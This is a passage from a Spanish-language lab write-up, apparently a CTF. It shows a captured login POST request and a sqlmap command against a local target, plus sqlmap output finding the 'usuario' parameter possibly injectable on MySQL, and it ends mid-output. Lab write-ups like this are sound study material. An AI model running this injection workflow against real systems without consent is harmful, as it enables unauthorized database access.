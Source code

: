 Vemos que funciona, por lo que vamos a realizar un `SQL Injection`.

## sqlmap

Vamos a capturar la peticion del login metiendo credenciales normales como `admin:admin` y con `BurpSuite` capturamos la peticion, lo guardamos en un `request.txt` de la siguiente forma:

> request.txt

```
POST /login_page/auth.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/login_page/auth.php
Cookie: PHPSESSID=ft2h2i22dq64it0rmd342keqj3
Upgrade-Insecure-Requests: 1
Priority: u=0, i

usuario=admin&contrase%C3%B1a=admin
```

```shell
sqlmap -r request.txt --dbs --batch
```

Info:

```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.11#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assumeno liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:40:59 /2025-03-09/

[11:40:59] [INFO] parsing HTTP request from 'request.txt'
[11:40:59] [INFO] testing connection to the target URL
[11:40:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:40:59] [INFO] testing if the target URL content is stable
[11:41:00] [INFO] target URL content is stable
[11:41:00] [INFO] testing if POST parameter 'usuario' is dynamic
[11:41:00] [WARNING] POST parameter 'usuario' does not appear to be dynamic
[11:41:00] [INFO] heuristic (basic) test shows that POST parameter 'usuario' might be injectable (possible DBMS: 'MySQL')
[11:41:00] [INFO] testing for SQL injection on POST parameter 'usuario'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[11:41:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:41:00] [WARNING] reflective value(s) found and filtering out
[11:41:00] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:41:00] [INFO] testing 'Generic inline queries'
```